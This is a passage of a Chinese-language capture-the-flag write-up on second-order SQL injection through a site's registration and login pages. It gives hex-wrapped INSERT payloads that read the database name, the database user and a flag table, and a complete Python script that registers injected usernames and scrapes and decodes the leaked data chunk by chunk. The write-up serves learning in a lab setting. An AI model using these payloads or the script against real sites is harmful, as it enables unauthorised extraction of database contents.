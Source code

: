 需要对后端的SQL语句有一个猜测

这里还有一个点，我们不能直接将要查询的函数插入，因为如果直接插入的话，`'database()'`会被识别为字符串，我们需要想办法闭合前后单引号的同时将我们的查询插入，就出现了`'0'+database()+'0'`这样的构造，但是这个的回显是`0`，但是在我们进行了hex编码之后就能正常的查询了，也就是上面出现的`'0'+hex(database())+'0'`

##### 注入流程

首先找到插入点，通常情况下是一个注册页面，`register.php`这种，先简单的查看一下注册后有没有什么注册时写入的信息在之后又回显的，若有回显猜测为二次查询。

```sql
insert into users(id,username,password,email) values(1,'0'+hex(database())+'0','0'+hex(hex(user()))+'0','123@qq.com')

insert into users(id,username,password,email) values(1,'0'+substr((select hex(hex(select * from flag))),1,10)+'0','123456','123@qq.com')
```

构造类似于values中的参数进行注册等操作，然后进行查看，将hex编码解码即可，可能会有其他的限制，比如超过10位就会转化为科学计数法，我们就需要使用`from for`语句来进行一个限制，可以编写脚本。

```python
import requests
import string
import re as r
import time
ch = string.ascii_lowercase+string.digits+'-}'+'{'

re = requests.session()
url = 'http://2ad6f5b8-11ac-4b10-bf32-b604a38c6bde.node4.buuoj.cn/'

def register(email,username):
    url1 = url+'register.php'
    data = dict(email = email, username = username,password = '123')
    html = re.post(url1,data=data)
    html.encoding = 'utf-8'
    return html

def login(email):
    url2 = url+'login.php'
    data = dict(email = email,password = '123')
    html = re.post(url2, data=data)
    html.encoding = 'utf-8'
    return html


hex_flag = ''
for j in range(0,17):
    payload = "0'+(select substr(hex(hex((select * from flag))) from {} for {}))+'0".format(int(j)*10+1,10)
    email = '{}@qq.com'.format(str(j)+'14')
    html = register(email,payload)
    # print html.text
    html = login(email)
    try:
        res = r.findall(r'<span class="user-name">(.*?)</span>',html.text,r.S)
        time.sleep(0.1)
        hex_flag += str(res[0]).strip()#html中的是str的
        bytes_hex1 = bytes.fromhex(hex_flag).decode("utf-8")
        flag0 = bytes_hex1
        flag = bytes.fromhex(flag0).decode("utf-8")#上面hex(hex(flag))编码两次，所以这里还原
        print (flag)
    except:
        pass

print (flag)
```
